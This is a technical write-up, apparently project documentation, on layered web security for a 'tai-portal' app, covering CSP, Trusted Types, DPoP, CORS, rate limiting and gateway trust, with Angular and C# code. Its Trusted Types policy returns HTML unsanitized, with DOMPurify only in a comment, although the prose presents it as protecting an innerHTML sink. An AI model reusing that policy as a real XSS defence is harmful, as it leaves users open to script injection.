







## TL;DR

Modern web security has shifted from perimeter defense to **Zero Trust**. In the `tai-portal` architecture (2025/2026 standards), we assume the network is hostile and the browser is vulnerable. We defend the client using **Strict Content Security Policies (CSP)** and **Trusted Types** to mathematically eliminate DOM-based Cross-Site Scripting (XSS). We defend the API using **DPoP (Demonstrating Proof-of-Possession)**, ensuring that even if an attacker manages to steal a JWT, the token is cryptographically useless without the user's hardware-bound private key. We defend the network perimeter using **CORS**, **Rate Limiting**, and a **Gateway Trust Middleware** that ensures all API traffic must pass through our YARP reverse proxy.

## Deep Dive

### Concept Overview

#### 1. Content Security Policy (CSP): The Strict Era
- **What:** An HTTP response header that acts as an allow-list for the browser, dictating exactly where scripts, styles, and images can be loaded from, and what they are allowed to do.
- **Why:** The primary defense against Cross-Site Scripting (XSS) and data exfiltration. XSS remains the most common and dangerous web vulnerability (OWASP Top 10), and CSP is the single most effective mitigation.
- **How:** In 2026, the industry standard is **Strict CSP**. We completely ban `'unsafe-inline'` (meaning no `<style>` tags directly in HTML or `style="..."` attributes) and `'unsafe-eval'` (banning `eval()` which executes dynamic code). Modern CSPs use `script-src 'strict-dynamic' 'nonce-{random}'`, meaning only scripts possessing a server-generated, one-time random string are allowed to execute.
- **When:** CSP should be enforced on every web application, period. Even internal tools. The strictness level should match the sensitivity of the data: `default-src 'self'` with no `unsafe-inline` for Fintech/Healthcare, progressively relaxed for lower-risk marketing sites.
- **Trade-offs:** Strict CSP drastically limits which third-party UI libraries you can use. Libraries like Angular Material dynamically inject inline styles for positioning (e.g., `style="transform: translateY(42px)"`), violating `style-src` policies. This forces teams to either build custom UI components (higher cost, total control) or maintain CSP exceptions per-component (lower cost, weaker security). In `tai-portal`, we chose the former.

#### 2. Trusted Types API
- **What:** A browser API that locks down dangerous DOM injection points (called "Sinks"), like `Element.innerHTML`, `document.write()`, or `eval()`.
- **Why:** Standard CSP stops bad scripts from *loading*. Trusted Types stops bad data from becoming *executable code* in the DOM (DOM-based XSS). Even with a perfect CSP, a developer can still accidentally write `div.innerHTML = userInput`, creating an XSS vector. Trusted Types makes this impossible.
- **How:** It forces developers to stop assigning raw strings to the DOM. Instead of `div.innerHTML = "<p>Unsafe</p>"`, you must pass the string through a registered "Policy" object that sanitizes it, returning a special `TrustedHTML` object. The browser will throw a fatal `TypeError` if raw strings are used.
- **When:** Enable `require-trusted-types-for 'script'` in your CSP header for any application handling sensitive data (identity, financial, healthcare). For lower-risk applications, use Trusted Types in "report-only" mode to identify violations without breaking the app.
- **Trade-offs:** Trusted Types is not yet universally supported (Chrome/Edge yes, Firefox behind a flag, Safari limited). This means you must provide graceful fallback paths for unsupported browsers. It also adds friction to development—every dynamic HTML insertion requires passing through a policy. The benefit is that it converts an entire class of runtime vulnerabilities into compile-time/startup-time errors.

#### 3. Zero Trust & DPoP (Demonstrating Proof-of-Possession)
- **What:** DPoP (RFC 9449) is the ultimate defense against token theft. It upgrades standard OAuth 2.0 "Bearer Tokens" to "Sender-Constrained Tokens."
- **Why:** Standard JWTs are like cash; whoever holds them can spend them. If an attacker steals a Bearer token via XSS or a network leak, they have full access. DPoP tokens are like checks; they are mathematically bound to the specific client who requested them.
- **How:** 
  1. The Angular app uses the Web Crypto API to generate an ECDSA P-256 private/public key pair. The private key is marked as **non-extractable**, meaning even JavaScript on the same page cannot read the raw key material.
  2. During login, it sends the public key (as a JWK) to OpenIddict. OpenIddict bakes a SHA-256 thumbprint of that key into the Access Token's `cnf` (confirmation) claim.
  3. For *every single API request*, the Angular app generates a unique, short-lived JWT (the "DPoP Proof") containing the HTTP method (`htm`), URL (`htu`), a unique ID (`jti`), and a timestamp (`iat`), signed using its private key.
  4. The API validates both the Access Token and the DPoP Proof. If a hacker steals the Access Token, they still can't make API calls because they don't have the user's private key to generate the required proofs.
- **When:** DPoP is becoming mandatory for high-security applications. It is a core requirement of the **FAPI 2.0 (Financial-grade API)** specification used in banking and a foundational protocol for securing **AI Agent workflows** (like the Model Context Protocol) where autonomous agents must prove identity per-request.
- **Trade-offs:** DPoP introduces measurable overhead: the frontend executes cryptographic signing on every HTTP request (~1-3ms per sign on modern hardware), and the backend must validate two JWTs (Access Token + DPoP Proof) per request. It also requires careful handling of clock synchronization (NTP) between client and server, because the `iat` claim in the proof must be within a tight window to prevent replay attacks. Key rotation on browser restart creates a new key pair, invalidating the previous session's token binding.

#### 4. CORS (Cross-Origin Resource Sharing)
- **What:** A browser security mechanism that prevents a malicious website (e.g., `evil.com`) from reading data from your API (e.g., `api.tai-portal.com`) on behalf of a logged-in user.
- **Why:** To prevent Cross-Site Request Forgery (CSRF) and unauthorized data access. Without CORS, any website the user visits could silently make authenticated API calls using the user's cookies.
- **How:** The API explicitly defines an allow-list of origins. When a browser attempts a cross-origin AJAX request, it first sends a preflight `OPTIONS` request. The API responds with `Access-Control-Allow-Origin` headers. If the browser's origin isn't on the list, the browser blocks the request and hides the response entirely.
- **When:** Configure CORS on every API that serves browser clients. Use `SetIsOriginAllowed()` with strict validation rather than `AllowAnyOrigin()`. In production, explicitly enumerate allowed origins rather than using wildcard patterns.
- **Trade-offs:** Overly permissive CORS (e.g., `Access-Control-Allow-Origin: *`) defeats the entire purpose. But overly strict CORS breaks legitimate cross-origin integrations (like embedded iframes or partner portals). The key is to use dynamic origin validation with explicit allow-lists, not static wildcards.

#### 5. Rate Limiting: The First Line of Defense
- **What:** A mechanism that limits the number of requests a client can make to an API within a time window, rejecting excess requests with HTTP `429 Too Many Requests`.
- **Why:** Without rate limiting, attackers can overwhelm the Identity Provider with brute-force login attempts or DDoS the API. Rate limiting on authentication endpoints is a mandatory control for any compliance framework (SOC 2, PCI DSS, ISO 27001).
- **How:** The `tai-portal` Gateway uses a **Token Bucket** algorithm, partitioned by client IP. Each IP starts with a fixed number of tokens (e.g., 10). Each request consumes one token. Tokens are replenished at a fixed rate (e.g., 10 per minute). When the bucket is empty, requests are immediately rejected (no queuing).
- **When:** Always apply rate limiting at the edge (Gateway/reverse proxy level), not at the application level. Apply strict limits to authentication endpoints (`/connect/*`) and more generous limits to data endpoints.
- **Trade-offs:** IP-based rate limiting can accidentally throttle legitimate users behind shared NAT gateways (e.g., large corporate offices where thousands of users share one public IP). Solutions include using authenticated user identity as the partition key (after login) or implementing progressive rate limiting that increases the bucket size for known, authenticated clients.

#### 6. Gateway Trust: Network-Level Zero Trust
- **What:** A middleware pattern where the backend API refuses to serve any request that did not originate from the trusted API Gateway.
- **Why:** Even with perfect authentication, if an attacker discovers the internal API's direct URL (e.g., via DNS enumeration or a leaked config), they can bypass all edge-level security (rate limiting, WAF rules, DDoP validation) and attack the API directly.
- **How:** The Gateway (YARP) injects a shared secret (`X-Gateway-Secret`) header into every request it proxies. The backend API validates this header in middleware and returns `403 Forbidden` for any request missing or failing the check. Public OIDC discovery endpoints (`.well-known/*`) are exempted.
- **When:** Use Gateway Trust whenever your architecture has a reverse proxy or API gateway sitting in front of backend services. This is standard practice in microservices architectures.
- **Trade-offs:** The shared secret must be rotated regularly and stored securely (environment variables, not source code). If the secret is compromised, the entire trust boundary collapses. More advanced implementations use mTLS (Mutual TLS) between the Gateway and API, eliminating shared secrets entirely.

### The Full Security Stack: Request Lifecycle

This diagram shows how a single API request traverses every security layer in the `tai-portal` architecture, from the browser to the database.



### Real-World Application: The TAI Portal Architecture

The `tai-portal` architecture is fanatical about Zero-Trust security. Every layer of the stack has been designed to assume compromise of the layer above it.

#### 1. Custom UI Components over Third-Party Libraries (CSP Compliance)

Many UI libraries (like Angular Material) dynamically inject "inline styles" directly into the HTML to handle positioning (e.g., `style="transform: translateY(42px)"`). This violates strict CSPs. In `tai-portal`, we explicitly rejected these libraries for our Identity components. We built custom components using headless primitives (Angular CDK) because it guarantees 100% control over the DOM.

The `SecureInputComponent` is the clearest example—a custom form input built for PCI DSS compliance, avoiding all third-party inline style injection:

```typescript
// From: libs/ui/design-system/src/lib/design-system/secure-input/secure-input.ts
@Component({
  selector: 'tai-secure-input',
  standalone: true,
  imports: [CommonModule, ReactiveFormsModule],
  templateUrl: './secure-input.html',
  styleUrl: './secure-input.scss', // External SCSS only — no inline styles
})
export class SecureInputComponent implements ControlValueAccessor {
  // All styling via computed CSS classes, never inline style attributes
  public readonly inputClasses = computed(() => {
    const base = 'secure-input-field px-4 py-3 text-base ...';
    const error = this.errorMessage() && this.isTouched()
      ? ' border-red-600 focus:ring-red-600/10' : '';
    return `${base}${error}`;
  });

  // Autofill Stealer Defense: forces browser to treat field as sensitive
  protected get autocompleteValue(): string {
    if (this.type() === 'password') return 'new-password';
    return this.type() === 'email' ? 'email' : 'off';
  }
}
```

#### 2. Angular TrustedTypes Service (DOM XSS Prevention)

When we dynamically render error messages or HTML, we do not use raw strings. We initialize a global `TrustedTypePolicy` called `tai-security-policy`. All dynamic HTML must pass through this sanitizer to become `TrustedHTML` before Angular is allowed to render it.

```typescript
// From: libs/ui/design-system/src/lib/design-system/secure-input/trusted-types.service.ts
@Injectable({ providedIn: 'root' })
export class TrustedTypesService {
  private policy: any;

  constructor() {
    const ttWindow = window as any;
    if (ttWindow.trustedTypes && ttWindow.trustedTypes.createPolicy) {
      try {
        this.policy = ttWindow.trustedTypes.createPolicy('tai-security-policy', {
          createHTML: (html: string) => {
            // Production: return DOMPurify.sanitize(html, { RETURN_TRUSTED_TYPE: true });
            return html;
          },
        });
      } catch {
        // Graceful fallback for Storybook HMR re-initialization
        this.policy = ttWindow.trustedTypes.getPolicy('tai-security-policy');
      }
    }
  }

  public createTrustedHTML(html: string): any {
    if (this.policy) return this.policy.createHTML(html);
    return html; // Fallback for browsers without Trusted Types support
  }
}
```

Usage in the component—the `[innerHTML]` sink is protected by Trusted Types:

```typescript
// From: libs/ui/design-system/src/lib/design-system/secure-input/secure-input.ts
private readonly ttService = inject(TrustedTypesService);

// Computed property ensures sanitization on every change
public readonly trustedErrorMessage = computed(() => {
  return this.ttService.createTrustedHTML(this.errorMessage());
});
```

#### 3. Angular DPoP Service & Interceptor (Token-Binding)

We implemented two pieces: a `DPoPService` that handles the cryptographic operations, and a `dpopInterceptor` that seamlessly attaches DPoP proofs to every API request.

**The DPoP Service** generates a session-bound ECDSA P-256 key pair and signs proofs:

```typescript
// From: apps/portal-web/src/app/dpop.service.ts
@Injectable({ providedIn: 'root' })
export class DPoPService {
  private keyPairPromise: Promise<CryptoKeyPair> | null = null;

  async getDPoPHeader(httpMethod: string, url: string, accessToken?: string, nonce?: string): Promise<string> {
    const keyPair = await this.getOrCreateKeyPair();
    const jwk = await this.getOrCreateJWK(keyPair.publicKey);

    const header = { typ: 'dpop+jwt', alg: 'ES256', jwk: { kty: jwk.kty, crv: jwk.crv, x: jwk.x, y: jwk.y } };
    const payload: Record<string, string | number> = {
      jti: window.crypto.randomUUID(),    // Unique ID — prevents replay attacks
      htm: httpMethod,                     // Bound to GET/POST/PUT/DELETE
      htu: url,                            // Bound to exact URL
      iat: Math.floor(Date.now() / 1000),  // Timestamp for freshness
    };
    if (nonce) payload['nonce'] = nonce;
    if (accessToken) payload['ath'] = await this.hashAccessToken(accessToken); // Token binding

    // Sign with non-extractable private key (ECDSA P-256 + SHA-256)
    const signature = await window.crypto.subtle.sign(
      { name: 'ECDSA', hash: { name: 'SHA-256' } },
      keyPair.privateKey, dataToSign
    );
    return `${encodedHeader}.${encodedPayload}.${encodedSignature}`;
  }

  // Private key is NON-EXTRACTABLE — even XSS cannot read the raw key material
  private async getOrCreateKeyPair(): Promise<CryptoKeyPair> {
    if (!this.keyPairPromise) {
      this.keyPairPromise = window.crypto.subtle.generateKey(
        { name: 'ECDSA', namedCurve: 'P-256' },
        false,   // false = non-extractable
        ['sign'] // key can only sign, not encrypt
      );
    }
    return this.keyPairPromise;
  }
}
```

**The DPoP Interceptor** attaches proofs to API calls and handles nonce retry:

```typescript
// From: apps/portal-web/src/app/dpop.interceptor.ts
export const dpopInterceptor: HttpInterceptorFn = (req, next) => {
  const dpopService = inject(DPoPService);

  // Only add DPoP headers to our own API calls
  if (!req.url.startsWith('/api') && !req.url.includes('localhost')) {
    return next(req);
  }

  const executeWithDPoP = (nonce?: string) => {
    return from(dpopService.getDPoPHeader(req.method, req.url, accessToken, nonce)).pipe(
      switchMap(dpopHeader => {
        const headers = req.headers.set('DPoP', dpopHeader);
        return next(req.clone({ headers }));
      })
    );
  };

  // Execute with automatic nonce retry on 401
  return executeWithDPoP().pipe(
    catchError((error: unknown) => {
      if (error instanceof HttpErrorResponse && error.status === 401) {
        const nonce = error.headers.get('DPoP-Nonce');
        if (nonce) return executeWithDPoP(nonce); // Retry ONCE with server nonce
      }
      return throwError(() => error);
    })
  );
};
```

#### The 5 DPoP Authentication Steps — Why Every One Is Needed

**Key terms:**

| Term | Full Name | What It Is |
|------|-----------|------------|
| **JWK** | JSON Web Key | A JSON format for representing a cryptographic key. The DPoP proof includes the client's **public key** as a JWK in its header so the server can verify the proof signature. |
| **jti** | JWT ID | A unique identifier (UUID) inside every DPoP proof. Each proof gets a fresh random `jti` so the server can detect replays. |
| **iat** | Issued At | A Unix timestamp in the DPoP proof indicating when it was created. The server checks this to reject stale proofs. |
| **cnf** | Confirmation | A claim in the access token containing the SHA-256 thumbprint of the client's public key, binding the token to a specific key pair. |

**Each step closes the loophole left by the previous one:**



**All three artifacts in the HTTP request:**



**Step 1 — Validate Access Token signature + expiry.**

A JWT has three Base64URL-encoded parts separated by dots: `header.payload.signature`

Access Token decoded header:

```json
{
  "alg": "RS256",           // signing algorithm: RSA + SHA-256
  "typ": "at+jwt",          // access token JWT
  "kid": "openiddict-key-2026-04"  // tells server which public key to verify with
}
```

Access Token decoded payload:

```json
{
  "iss": "https://auth.yourapp.com",       // issuer
  "sub": "user-guid-1234-5678",            // subject (user ID)
  "aud": "tai-portal-api",                 // audience
  "exp": 1743786000,                       // expiry — server checks: now < exp
  "iat": 1743782400,                       // issued at
  "scope": "openid profile",
  "privileges": ["Portal.Users.Read", "Portal.Users.Create"],
  "cnf": {
    "jkt": "hA3lRfKZ5x9N7q2mWOH_k4VB8cT1gJwXyPdEsFvM2bY"
    // ↑ SHA-256 thumbprint of client's DPoP public key — anchor for Step 3
  }
}
```

How signature + expiry are checked:



The server never sees the authorization server's **private** signing key. It only uses the **public** key (from the JWKS endpoint) to verify. If anyone changes a single character in the header or payload, the signature won't match. **Loophole:** if an attacker steals a valid, unexpired token (from logs, a proxy, XSS), they can use it freely — it's a bearer token.

**Step 2 — Validate DPoP proof signature with public key.**

The DPoP proof is also a JWT, but signed by the **client's** ECDSA private key (not the auth server's RSA key).

DPoP Proof decoded header:

```json
{
  "typ": "dpop+jwt",        // identifies this as a DPoP proof
  "alg": "ES256",           // ECDSA P-256 + SHA-256
  "jwk": {                  // client's PUBLIC key embedded directly
    "kty": "EC",
    "crv": "P-256",
    "x": "f83OJ3D2xF1Bg8vub9tLe1gHMzV76e8Tus9uPHvRVEU",
    "y": "x_FEzRu9m36HLN_tue659LNpXW6pCyStikYjKIWI5a0"
  }
}
```

DPoP Proof decoded payload:

```json
{
  "jti": "a9e0c1b4-7f3e-4d2a-b8c5-1234567890ab",  // unique ID (Step 4)
  "htm": "GET",                                      // bound to HTTP method
  "htu": "https://api.yourapp.com/api/users",        // bound to exact URL
  "iat": 1743782400,                                 // issued-at (Step 5)
  "ath": "fUHyO2r2Z3DZ53EsNrWBb0xWXoaNy59IiKCAqksmQEo"  // SHA-256 of access token
}
```

How the DPoP proof signature is checked:



An attacker who steals the access token but lacks the private key cannot forge a valid proof. The private key is non-extractable in WebCrypto — even XSS can't read it. **Loophole:** the attacker could create their own key pair and sign their own proof — the signature would be valid for their key.

**Step 3 — Match proof JWK thumbprint to token `cnf` claim.**

This is where the access token and DPoP proof are **bound together**. The JWK Thumbprint is a deterministic SHA-256 hash of the public key's essential fields in canonical JSON format ([RFC 7638](https://tools.ietf.org/html/rfc7638)):

```
Step A: Extract required members from JWK in lexicographic order
        For EC keys: {"crv","kty","x","y"}

        Canonical JSON (no whitespace):
        {"crv":"P-256","kty":"EC","x":"f83OJ3D2xF1Bg8vub9tLe1gHMzV76e8Tus9uPHvRVEU",
         "y":"x_FEzRu9m36HLN_tue659LNpXW6pCyStikYjKIWI5a0"}

Step B: SHA256(canonical_json) → Base64URL encode
        → "hA3lRfKZ5x9N7q2mWOH_k4VB8cT1gJwXyPdEsFvM2bY"
```

The match check:



What this prevents concretely:



The `cnf.jkt` was set at token issuance time when the legitimate client presented its public key. An attacker with a different key pair will always produce a different thumbprint. **Loophole:** an attacker intercepts a complete request (token + valid proof together) and replays the whole thing.

**Step 4 — Check `jti` uniqueness for replay prevention.** Each DPoP proof contains a unique `jti` (random UUID). The server stores seen `jti` values (in-memory or ElastiCache/Redis) and rejects duplicates. A captured request can only be used once. **Loophole:** the `jti` cache can't grow forever — old entries must be evicted, allowing late replays.

**Step 5 — Check `iat` freshness within clock skew window.** The proof's `iat` timestamp must be within a small window (e.g., ±60 seconds). Old proofs are rejected regardless of `jti` cache state. The cache only needs to hold entries for the freshness window duration, not forever.

**Summary — remove any single step and an attack path opens:**

| Attack | Stopped By |
|--------|------------|
| Forged or expired token | Step ① (signature + expiry) |
| Stolen token, no private key | Step ② (proof signature) |
| Stolen token + attacker's own key | Step ③ (JWK thumbprint ↔ cnf binding) |
| Captured full request, replayed | Step ④ (jti uniqueness) |
| Replay after jti cache eviction | Step ⑤ (iat freshness window) |

#### 4. CORS & Rate Limiting at the Gateway

The Gateway applies rate limiting to OIDC endpoints before forwarding to the Identity Provider:

```csharp
// From: apps/portal-gateway/Program.cs
builder.Services.AddRateLimiter(options => {
  options.AddPolicy("token-bucket", httpContext =>
    RateLimitPartition.GetTokenBucketLimiter(
      partitionKey: httpContext.Connection.RemoteIpAddress?.ToString() ?? "anonymous",
      factory: _ => new TokenBucketRateLimiterOptions {
        TokenLimit = 10,
        ReplenishmentPeriod = TimeSpan.FromMinutes(1),
        TokensPerPeriod = 10,
        QueueLimit = 0,  // Reject immediately, no queuing
        AutoReplenishment = true
      }));
  options.RejectionStatusCode = StatusCodes.Status429TooManyRequests;
});
```

CORS is configured with dynamic origin validation on both the Gateway and the API:

```csharp
// From: apps/portal-api/Program.cs (identical pattern on portal-gateway)
builder.Services.AddCors(options => {
  options.AddDefaultPolicy(policy => {
    policy.SetIsOriginAllowed(origin => {
      var host = new Uri(origin).Host;
      return host == "localhost" || host.EndsWith(".localhost");
    })
    .AllowAnyHeader()
    .AllowAnyMethod()
    .AllowCredentials();
  });
});
```

#### CORS Best Practice — Configuration-Driven, Not Hardcoded

The `SetIsOriginAllowed` lambda above is fine for local development but should **not** be hardcoded for production. Best practice is a **configuration-driven allow list**:

```json
// appsettings.Production.json
{
  "Cors": {
    "AllowedOrigins": [
      "https://tenant1.yourapp.com",
      "https://tenant2.yourapp.com"
    ]
  }
}
```

```csharp
// Program.cs — production: explicit origin list from config
var allowedOrigins = builder.Configuration
    .GetSection("Cors:AllowedOrigins")
    .Get<string[]>() ?? [];

builder.Services.AddCors(options => {
  options.AddDefaultPolicy(policy => {
    policy.WithOrigins(allowedOrigins)
          .AllowAnyHeader()
          .AllowAnyMethod()
          .AllowCredentials();
  });
});
```

**For multi-tenant apps with dynamic subdomains**, a pattern-based approach avoids updating config every time a tenant is added:

```csharp
